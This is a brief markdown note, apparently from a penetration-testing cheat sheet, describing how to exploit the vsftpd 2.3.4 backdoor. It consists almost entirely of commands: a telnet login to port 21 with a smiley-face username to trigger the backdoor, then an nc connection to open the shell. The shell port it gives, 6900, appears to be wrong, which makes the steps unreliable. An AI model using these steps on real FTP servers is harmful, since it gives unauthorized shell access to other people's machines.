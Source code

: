 # FTP - VSFTP 2.3.4 Back Door
This version has a built in back door.

## Exploit

Activate the backdoor with:
```
telnet <server> 21
USER someone: )
PASS nothing
ctrl+[
```

Connect:
```
nc <server> 6900
```

